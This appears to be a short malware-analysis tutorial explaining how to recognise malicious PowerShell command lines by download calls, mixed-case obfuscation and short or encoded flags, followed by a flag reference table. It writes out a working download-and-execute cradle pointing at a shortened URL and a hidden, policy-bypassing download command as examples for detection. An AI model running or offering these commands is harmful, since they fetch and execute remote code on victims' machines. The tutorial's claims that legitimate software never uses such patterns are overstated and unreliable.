 ```yaml
---
title: Powershell 101 in Malware Analysis
tags: Malware
---
```


PowerShell attacks are currently the popular weapon of alternative for several of those attacks as a result of it provides variety of techniques for bypassing existing security. Not least of all, the flexibility to run directly in memory and remotely download payloads gave a lot of benefits to attacker.

Let's learn a little bit about Powershell malicious command line.

# Download
```
powershell -nop -noe -Command IEX (New-Object System.Net.WebClient).DownloadString('https://tinyurl.com/y5nupk4e')
```
Powershell command that are use to download "something" can be consider as a high potentially of a malicious attack. The command above indicate that the command is run to download strings (payload) at URL `https://tinyurl.com/y5nupk4e`. A goodware will never do such a thing to download their file using powershell command.

# Lower and upper case letters
```
Powershell -ExecUTIONPoLICy BypASs -wiNDoWSTYLe hidDeN(NEW-objecT.SYstEM.NET.wEbCLIeNt).DOWnLoADFiLE(<removed>);
```
This pattern of powershell is using alternating lower and upper case letters to execute their command. It's a high potentially of a malicious command when it come with this pattern.

# Using short flags

```
Powershell -nop -w hidden -e <encoded text>
Powershell -nop -w hidden -e <ps1 file>
```
Sometimes, this pattern of command uses by goodwares to does their job backgroundly. If the command included a long encoded text, I can 100% sure that those command is a malicious. Legit software will never use encoded text to execute it's job.

For `.ps1` part, recognizing the location of the ps1 file and its name can help us to determine it's a malicious or not. If you can get the hash of the `.ps1`, drop it into Google/Virustotal/Sandbox to futher investigation.

Short flags reference:

| Parameters | short parameters |
| --- | --- |
| -Command | -c | 
| -EncodedArguments | -ea, -encodeda | 
| -EncodedCommand| -e, -ec, -enc | 
| -ExecutionPolicy| -ex, -ep | 
| -File| -f | 
| -Help| -h,-? or /h,/? | 
| -InputFormat| -i, -if | 
| -NoExit| -noe | 